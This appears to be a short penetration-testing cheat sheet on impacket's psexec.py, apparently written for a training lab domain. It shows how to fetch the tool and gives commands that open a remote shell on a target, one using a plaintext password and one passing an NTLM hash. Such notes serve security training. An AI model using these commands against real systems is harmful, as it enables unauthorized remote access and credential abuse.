 **This tool is part of impacket suite.**
```python
python3 /usr/share/doc/python3-impacket/examples/psexec.py --help
```
or

```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py
```

#### Shell with psexec.py
When we have valid credentials, we can simply login to target.
```python
psexec.py marvel.local/fcastle:Password1@$TARGET
```

#### Passing the hash
When we have username and hash, we can login to target.
```python
psexec.py marvel.local/fcastle@192.168.111.138 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```
